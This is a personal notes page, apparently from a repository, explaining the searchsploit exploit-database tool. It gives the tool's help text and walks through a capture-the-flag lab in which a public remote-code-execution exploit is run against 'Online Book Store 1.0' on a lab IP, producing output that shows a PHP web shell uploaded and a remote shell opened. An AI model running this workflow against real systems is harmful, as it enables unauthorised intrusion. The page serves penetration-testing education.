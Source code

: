 # Searchsploit

- [Introduction](#introduction)
- [Python 2 Scripts](#python-2-scripts)
- [Usage](#usage)
- [Examples](#examples)

## Introduction

The searchsploit tool is a useful commandline database that allows me to look up a vulnerabilities in the [Exploit Database](https://www.exploit-db.com/searchsploit) based on the name and version of software. This information provides a list of known vulnerabilites and scripts that can be used to run against target machines. Once I install searchsploit on my machine I can look up vulnerabilites without using an internet connection.

## Python 2 Scripts

Searchsploit is a fantastic tool that indexes CVEs and the scripts that were made for those CVEs. Many of the scripts found in this project were made before January 2020 when Python 2 reached end of life. These scripts can be ran using the TryHackMe attack box since it has Python 2 running on it (the python binary). If there is a dependency package in these scripts for a third party package, I will look up the releases for the package on PyPI and get the last one before January 2020.

Usually this allows me to run the script. The two main ways I determine if a script is Python 2 is the print statements and the input command. Python 2 didn't require parentheses when calling print, Python 3 does. The input command handles input differently between Python 2 and Python 3. I try to use my best judgement either way to determine if something can be ran as a Python 2 script or if it can be updated to Python 3.

## Usage

```bash
$ searchsploit -h
  Usage: searchsploit [options] term1 [term2] ... [termN]

==========
 Examples 
==========
  searchsploit afd windows local
  searchsploit -t oracle windows
  searchsploit -p 39446
  searchsploit linux kernel 3.2 --exclude="(PoC)|/dos/"
  searchsploit -s Apache Struts 2.0.0
  searchsploit linux reverse password
  searchsploit -j 55555 | jq
  searchsploit --cve 2021-44228

  For more examples, see the manual: https://www.exploit-db.com/searchsploit

=========
 Options 
=========
## Search Terms
   -c, --case     [term]      Perform a case-sensitive search (Default is inSEnsITiVe)
   -e, --exact    [term]      Perform an EXACT & order match on exploit title (Default is an AND match on each term) [Implies "-t"]
                                e.g. "WordPress 4.1" would not be detect "WordPress Core 4.1")
   -s, --strict               Perform a strict search, so input values must exist, disabling fuzzy search for version range
                                e.g. "1.1" would not be detected in "1.0 < 1.3")
   -t, --title    [term]      Search JUST the exploit title (Default is title AND the file's path)
       --exclude="term"       Remove values from results. By using "|" to separate, you can chain multiple values
                                e.g. --exclude="term1|term2|term3"
       --cve      [CVE]       Search for Common Vulnerabilities and Exposures (CVE) value

## Output
   -j, --json     [term]      Show result in JSON format
   -o, --overflow [term]      Exploit titles are allowed to overflow their columns
   -p, --path     [EDB-ID]    Show the full path to an exploit (and also copies the path to the clipboard if possible)
   -v, --verbose              Display more information in output
   -w, --www      [term]      Show URLs to Exploit-DB.com rather than the local path
       --id                   Display the EDB-ID value rather than local path
       --disable-colour       Disable colour highlighting in search results

## Non-Searching
   -m, --mirror   [EDB-ID]    Mirror (aka copies) an exploit to the current working directory
   -x, --examine  [EDB-ID]    Examine (aka opens) the exploit using $PAGER

## Non-Searching
   -h, --help                 Show this help screen
   -u, --update               Check for and install any exploitdb package updates (brew, deb & git)

## Automation
       --nmap     [file.xml]  Checks all results in Nmap's XML output with service version
                                e.g.: nmap [host] -sV -oX file.xml

=======
 Notes 
=======
 * You can use any number of search terms
 * By default, search terms are not case-sensitive, ordering is irrelevant, and will search between version ranges
   * Use '-c' if you wish to reduce results by case-sensitive searching
   * And/Or '-e' if you wish to filter results by using an exact match
   * And/Or '-s' if you wish to look for an exact version match
 * Use '-t' to exclude the file's path to filter the search results
   * Remove false positives (especially when searching using numbers - i.e. versions)
 * When using '--nmap', adding '-v' (verbose), it will search for even more combinations
 * When updating or displaying help, search terms will be ignored
```

## Examples

The following examples are ones that I have used in capture the flag exercises.

### Searching

I found a web application that was running the "Online Book Store v1.0" software. Using searchsploit I was able to find all kinds of vulnerabilities. Here is the command I ran to find what exploits were available:

```bash
$ searchsploit Online Book Store
------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                  |  Path
------------------------------------------------------------------------------------------------ ---------------------------------
GotoCode Online Bookstore - Multiple Vulnerabilities                                            | asp/webapps/17921.txt
Online Book Store 1.0 - 'bookisbn' SQL Injection                                                | php/webapps/47922.txt
Online Book Store 1.0 - 'id' SQL Injection                                                      | php/webapps/48775.txt
Online Book Store 1.0 - Arbitrary File Upload                                                   | php/webapps/47928.txt
Online Book Store 1.0 - Unauthenticated Remote Code Execution                                   | php/webapps/47887.py
Online Event Booking and Reservation System 1.0 - 'reason' Stored Cross-Site Scripting (XSS)    | php/webapps/50450.txt
------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

The `Online Book Store 1.0 - Unauthenticated Remote Code Execution` line caught my eye. Looking in the Path column of the table, I see that `php/webapps/47887.py` is the file to run this exploit. I was to see more information about this exploit. I'll run the following command to get more information:

```bash
$ searchsploit 47887 -p
-------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                  |  Path
-------------------------------------------------------------------------------- ---------------------------------
Online Book Store 1.0 - Unauthenticated Remote Code Execution                   | php/webapps/47887.py
-------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
root@ip-10-10-92-190:~/Instructions# searchsploit 47887 -p
  Exploit: Online Book Store 1.0 - Unauthenticated Remote Code Execution
      URL: https://www.exploit-db.com/exploits/47887
     Path: /opt/exploitdb/exploits/php/webapps/47887.py
    Codes: N/A
 Verified: True
File Type: ASCII text
```

The Path in the above output tells me where on my machine searchsploit is storing the exploit file. I can run the script in that directory or copy it over to my current directory. I usually copy it to my directory in case I need to make modifications or if I am including the script in a write up. I copy the script by running:

```bash
$ searchsploit 47887 -m
```

The above command is the same as running the following:

```bash
$ cp /opt/exploitdb/exploits/php/webapps/47887.py .
```

I try to run any python script with python3 because python 2 has been end of life since January 1st, 2020. This script would not work with python 2 since it uses the built in input command and that is handled slightly differently between python2 and python3.

Now I run the command with the following:

```bash
$ python3 47887.py
```

This generated an error saying that the script needs a url to be provided. So I included the root url to the application:

```bash
$ python3 47887.py http://10.10.1.1
> Attempting to upload PHP web shell...
> Verifying shell upload...
> Web shell uploaded to http://10.10.1.1/bootstrap/img/oUde8ShIJA.php
> Example command usage: http://10.10.1.1/bootstrap/img/oUde8ShIJA.php?cmd=whoami
> Do you wish to launch a shell here? (y/n): y
RCE $
```

I now have remote shell access on the target machine!
